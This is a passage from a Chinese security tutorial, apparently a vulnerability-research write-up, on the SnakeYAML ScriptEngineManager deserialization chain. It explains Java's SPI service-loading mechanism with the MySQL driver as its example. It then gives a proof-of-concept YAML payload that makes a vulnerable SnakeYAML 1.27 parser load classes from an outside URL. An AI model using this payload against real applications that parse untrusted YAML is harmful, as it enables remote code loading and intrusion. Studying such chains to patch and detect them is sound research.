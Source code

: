 ### ScriptEngineManager 链

**什么是 SPI 机制**  
SPI(Service Provider Interface), JDK 内置的一种服务提供发现机制。它的利用方式是通过在 ClassPath 路径下的`META-INF/services`文件夹下查找文件，自动加载文件中所定义的类  
例如以 mysql-connector 包为例：  
[![](assets/1701612157-668ffa56b3c938fcfafec585bf009359.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204502-3879ac82-39d7-1.png)  
而 Dirver 类中的内容是：

```plain
package com.mysql.cj.jdbc;

import java.sql.DriverManager;
import java.sql.SQLException;

public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

这个 Driver 类实现了 java.sql.Driver 接口，这段代码主要是将当前类的实例注册为 MySQL 数据库的驱动程序，实现了一个 MySQL 数据库的 Java 驱动程序，这个方法会在 JVM 启动时执行，从而确保了该驱动程序在应用程序启动时已经被注册。当应用程序需要连接 MySQL 数据库时，可以通过 DriverManager 类的 getConnection() 方法获取 com.mysql.cj.jdbc.Driver 类的实例，进而建立 MySQL 数据库连接  
**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
POC：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest2 {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tlk0u6qn.eyes.sh\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
